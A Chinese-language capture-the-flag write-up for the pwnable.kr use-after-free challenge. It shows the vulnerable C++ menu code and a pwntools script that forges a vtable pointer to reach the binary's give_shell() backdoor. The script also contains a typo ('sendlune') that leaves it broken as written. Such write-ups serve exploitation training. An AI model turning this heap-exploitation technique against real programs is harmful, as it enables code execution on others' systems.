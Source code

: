### 分析源码

```cpp
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}
```

根据uaf的原理，我们只需要先free 然后再利用after修改Dangling pointer指向的内存，然后再use一下就行，这里我们通过修改虚表指针，来利用源码中的后门give_shell()

```python
#coding=utf-8
from pwn import *

shell=ssh(host='pwnable.kr',user='uaf',password='guest',port=2222)

#shell.download_file("./uaf.cpp")
#shell.download_file("./uaf")

v_ptr=0x00401570

payload=v_ptr-0x8 #修改虚表指针

sh=shell.run('sh')
sh.sendline('python -c "print" '+p64(payload)+'> /tmp/exp.txt')
sh.sendline("./uaf 24 /tmp/exp.txt")#Man 对象分配的堆空间是24个字节
sh.sendline("3")
sh.sendline("2")#因为先free m再free w，所以为了再次拿到m所指向的空间，我们需要分配两次，第一次得到w所指向的空间，第二次才再次得到m所指向的空间
sh.sendline("2")
sh.sendlune("1")
sh.interactive()
```
